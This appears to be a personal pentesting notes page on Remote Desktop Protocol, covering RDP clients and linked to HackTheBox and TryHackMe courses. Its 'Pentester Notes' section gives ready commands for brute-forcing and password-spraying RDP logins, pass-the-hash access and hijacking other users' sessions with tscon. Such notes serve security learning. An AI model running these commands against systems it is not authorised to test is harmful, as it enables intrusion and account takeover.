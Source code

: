 # Remote Desktop Protocol (RDP)

[![windowsfundamentals](../../../cybersecurity/_badges/htb/windowsfundamentals.svg)](https://academy.hackthebox.com/course/preview/windows-fundamentals)
[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Remote Desktop Protocol (RDP) is a protocol used to access a  desktop with a graphical interface from another computer over a network connection.

🐊️ **Port**: 3389 <small>(TCP or rarely UDP)</small>

It can be used to transfer files too, if the server supports it.
</div><div>
</div></div>

<hr class="sep-both">

## RDP Clients Overview

<div class="row row-cols-lg-2"><div>

#### RDP Using Microsoft Terminal Services Client

On Windows, there is the built-in client: `mstsc.exe`. It has a few options to reduce the quality and increase performance.

Click on `Show options` then `Experience` and select `modem`.

<br>

#### RDP Using rdesktop

There is [rdesktop](https://github.com/rdesktop/rdesktop) <small>(1.2k ⭐)</small>.

```shell!
$ rdesktop [...] -r disk:linux='/path/to/folder'
```

<br>

#### RDP Using FreeRDP

[FreeRDP](https://github.com/FreeRDP/FreeRDP) <small>(10.1k ⭐)</small> is a popular client that may be installed on many Linux distributions. There is a GUI called [xfreerdp-gui](https://github.com/wyllianbs/xfreerdp-gui) <small>(0.1k ⭐, 2020 🪦)</small>.

```shell!
$ xfreerdp /u:username /p:password /v:IP
$ xfreerdp /u:username /pth:hash /v:IP
$ xfreerdp /dynamic-resolution +clipboard /timeout:50000 /cert:ignore /v:IP /u:x /p:y
$ xfreerdp [...] /drive:linux,/path/to/folder
$ xfreerdp [...] /drive:/usr/share/windows-resources,share
```
</div><div>

#### RDP Using Remmina

[Remmina](https://github.com/FreeRDP/Remmina) <small>(2.1k ⭐)</small> is a popular graphical RDP client. It's easy to use and it has as many useful features as the others do.

```ps
$ sudo apt install -y remmina
$ remmina # start it
```

Click on the `+` at the top-left to configure your RDP connections, such as if you want to share a shared folder or use a SSH tunnel to a pivot.

You can alternatively directly enter the IP then the credentials in the search bar of the main pane. Accept the certificate <small>(if prompted)</small>.

In preferences, we are able to select a keyboard mapping. In the quality section, you can uncheck everything for every category.

Useful icons:

* **Home**  🏠️: switch back to remmina main panel
* **Toggle Dynamic Resolution Update** 🖼️: fit to your screen

📚 Navigate to `\\tsclient\` to access the shared folder.

📚 You can create a SSH tunnel directly from Remmina configuration.
</div></div>

<hr class="sep-both">

## RDP Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* Using [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```ps
$ # nmap RDP cookies are leaving traces (--packet-trace)
$ sudo nmap -sV -sC -p 3389 --script rdp* IP
```

#### Foothold

[![password_attacks](../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* The password may be weak and vulnerable to [brute force](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md).

```shell!
$ hydra -L user.list -P password.list rdp://IP -V
$ crowbar -b rdp -s IP/32 -u username -C password.list -v -n 64
```

There is also [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) <small>(0.6k ⭐)</small>.

```ps
$ python3 RDPassSpray.py -u username -p password -t IP:port
$ python3 RDPassSpray.py -U usernames.lst -p password -t IP:port
$ python3 RDPassSpray.py [...] -d domain
$ python3 RDPassSpray.py [...] -T rdp_servers.lst
```
</div><div>

#### Exploitation

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* **RDP Session Hijacking**: connect to another user session. On Windows, as admin, we can use [tscon](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon).

```ps
PS> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

On Windows Server prior to 2019 as a local administrator, we can use:

```ps
PS> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
PS> net start sessionhijack
```

#### Well-known CVEs

* [BlueKeep Vulnerability](https://en.wikipedia.org/wiki/BlueKeep) <small>(2019, RCE, unstable/BSoD)</small>

#### Additional Tools

* [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) <small>(0.2k ⭐, 2021 🪦)</small>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* ms-wbt-server (Windows RDP implementation)
* [Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Remote_Desktop_Services#Network_Level_Authentication)
</div><div>
</div></div>